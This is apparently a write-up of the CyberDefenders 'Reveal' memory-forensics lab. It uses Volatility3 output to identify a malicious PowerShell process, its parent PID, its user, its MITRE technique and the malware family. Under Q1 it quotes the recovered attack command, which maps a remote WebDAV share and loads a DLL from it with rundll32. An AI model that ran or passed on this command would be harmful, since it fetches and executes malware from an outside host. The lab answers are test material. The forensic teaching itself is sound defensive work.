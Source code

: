 This is a brief description of my work on the CyberDefenders "Reveal" lab (category: Endpoint Forensics).  


Here is the scenario:


*As a cybersecurity analyst for a leading financial institution, an alert from your SIEM solution has flagged unusual activity on an internal workstation. Given the sensitive financial data at risk, immediate action is required to prevent potential breaches.*


*Your task is to delve into the provided memory dump from the compromised system. You need to identify basic Indicators of Compromise (IOCs) and determine the extent of the intrusion. Investigate the malicious commands or files executed in the environment, and report your findings in detail to aid in remediation and enhance future defenses.*

To get started, I ran a few Volatility3 plugins with the output directed into their own file: psxview, pstree, cmdline, netscan, malfind. See the HTML files in this folder for the output.
Then I imported the output into a spreadsheet application for easier review: the tab-delimited output doesn't render correctly in Notepad or Notepad++, and its easier to sort the data.

I made some initial observations and bolded these rows for follow up later: 
powershell.exe and msiexec.exe in the "psxview" output, and
WMiPrvSE.exe, Calculator.exe (this is a child process of svchost.exe, which is suspicious), and the orphaned processes MicrosoftEdgeUpdater.exe, wordpad.exe, powershell.exe, and net.exe.

Looking at the "pstree" output, the command line associated with powershell.exe was the apparent malicious process: use of rundll32 to load a DLL over a network share is a popular method to load and execute code directly in memory, without leaving any disk artifacts behind.

Now for the questions!

Q1 Identifying the name of the malicious process helps in understanding the nature of the attack. What is the name of the malicious process? **powershell.exe**
- I ran the "pstree" plugin, identified a suspicious process and confirmed after a review of the command line used to execute it: 
`powershell.exe -windowstyle hidden net use \\45.9.74.32@8888\davwwwroot\ ; rundll32 \\45.9.74.32@8888\davwwwroot\3435.dll,entry`

Q2 Knowing the parent process ID (PID) of the malicious process aids in tracing the process hierarchy and understanding the attack flow. What is the parent PID of the malicious process? **4120**
- I learned this from reviewing the "pstree" output.

Q3 Determining the file name used by the malware for executing the second-stage payload is crucial for identifying subsequent malicious activities. What is the file name that the malware uses to execute the second-stage payload? **3435.dll**
- I learned this from reviewing the command described in the answer for Q1.

Q4 Identifying the shared directory on the remote server helps trace the resources targeted by the attacker. What is the name of the shared directory being accessed on the remote server? davwwwroot
- I learned this from reviewing the command described in the answer for Q1.

Q5 What is the MITRE sub-technique ID used by the malware to execute the second-stage payload? T1218.011 (System Binary Proxy Execution: Rundll32)
- I searched the MITRE ATT&CK website to find the sub-technique ID associated with rundll32.

Q6 Identifying the username under which the malicious process runs helps in assessing the compromised account and its potential impact. What is the username that the malicious process runs under? Elon
- I ran the "getsids" plugin against the malicious process ID.

Q7 Knowing the name of the malware family is essential for correlating the attack with known threats and developing appropriate defenses. What is the name of the malware family? STRELASTEALER
- I looked up the IP address from the command described in the answer for Q1 in VirusTotal.
